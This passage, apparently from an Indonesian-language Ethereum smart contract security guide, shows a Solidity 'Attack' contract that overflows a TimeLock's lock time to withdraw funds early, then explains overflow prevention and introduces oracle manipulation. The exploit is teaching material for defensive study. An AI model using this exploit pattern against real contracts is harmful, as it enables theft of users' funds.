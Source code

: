 ```

        uint amount = balances[msg.sender];
        balances[msg.sender] = 0;

        (bool sent, ) = msg.sender.call{value: amount}("");
        require(sent, "Failed to send Ether");
    }
}

contract Attack {
    TimeLock timeLock;

    constructor(TimeLock _timeLock) {
        timeLock = TimeLock(_timeLock);
    }

    fallback() external payable {}

    function attack() public payable {
        timeLock.deposit{value: msg.value}();
        /*
        if t = current lock time then we need to find x such that
        x + t = 2**256 = 0
        so x = -t
        2**256 = type(uint).max + 1
        so x = type(uint).max + 1 - t
        */
        timeLock.increaseLockTime(
            type(uint).max + 1 - timeLock.lockTime(address(this))
        );
        timeLock.withdraw();
    }
}
```

##### Cara mencegah underflow dan overflow bilangan bulat

Sejak versi 0.8.0, pengompilasi Solidity menolak kode yang menghasilkan underflow dan overflow bilangan bulat. Namun, kontrak yang dikompilasi dengan versi pengompilasi yang lebih rendah harus melakukan pemeriksaan pada fungsi yang melibatkan operasi aritmatika atau menggunakan pustaka (misalnya, [SafeMath](https://docs.openzeppelin.com/contracts/2.x/api/math)) yang memeriksa adanya underflow/overflow.

#### Manipulasi Oracle {#oracle-manipulation}

[Oracles](/developers/docs/oracles/) mengambil informasi di luar rantai dan mengirimnya ke dalam rantai agar dapat digunakan oleh kontrak pintar. Dengan oracle, Anda dapat mendesain kontrak pintar yang mendukung sistem di luar rantai, seperti pasar modal, sehingga dapat sangat memperluas penggunaannya.

Akan tetapi, jika oracle rusak dan mengirimkan informasi yang salah di dalam rantai, kontrak pintar akan dijalankan berdasarkan input yang salah sehingga dapat menimbulkan masalah. Ini adalah dasar dari "masalah oracle", yang berkaitan dengan tugas untuk memastikan informasi dari oracle rantai blok sudah akurat, mutakhir, dan tepat waktu.
